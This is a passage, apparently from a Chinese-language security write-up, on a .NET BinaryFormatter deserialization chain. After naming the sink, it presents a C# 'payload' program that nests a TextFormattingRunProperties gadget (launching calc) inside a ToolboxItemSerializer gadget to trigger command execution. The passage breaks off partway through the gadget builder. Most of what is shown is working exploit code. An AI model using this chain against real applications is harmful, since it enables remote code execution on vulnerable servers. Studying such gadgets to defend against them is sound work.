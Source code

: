 **Sink关键点**：_formatter.Deserialize()

传入Stream中的是字节，所以我们可以利用TypeConfuseDelegate的payload字节去替换TextFormattingRunProperties的payload字节。

payload：

```
using Microsoft.VisualStudio.Text.Formatting;
using System;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.Windows.Data;
using System.Windows.Markup;

namespace NancySerialize
{
    class Program
    {
        static void Main(string[] args)
        {
            BinaryFormatter binaryFormatter = new BinaryFormatter();
            byte[] vs;
            using (MemoryStream memory = new MemoryStream())
            {
                binaryFormatter.Serialize(memory, new TextFormattingRunPropertiesMarshal("calc"));
                vs = memory.ToArray();
            }
            ToolboxItemSerializerMarshal toolBox = new ToolboxItemSerializerMarshal(vs);
            using (MemoryStream memoryStream = new MemoryStream())
            {
                binaryFormatter.Serialize(memoryStream, toolBox);
                memoryStream.Position = 0;
                binaryFormatter.Deserialize(memoryStream);
            }
        }
    }
    [Serializable]
    public class ToolboxItemSerializerMarshal : ISerializable
    {
        public ToolboxItemSerializerMarshal(byte[] payload)
        {
            Payload = payload;
        }

        private byte[] Payload { get; }
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(Type.GetType("System.Drawing.Design.ToolboxItemContainer+ToolboxItemSerializer, System.Drawing.Design, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"));
            info.AddValue("AssemblyName", new AssemblyName());
            info.AddValue("Stream", Payload);
        }
    }
    //生成TextFormattingRunProperties的字节通用方式
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        public static string gadget(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
```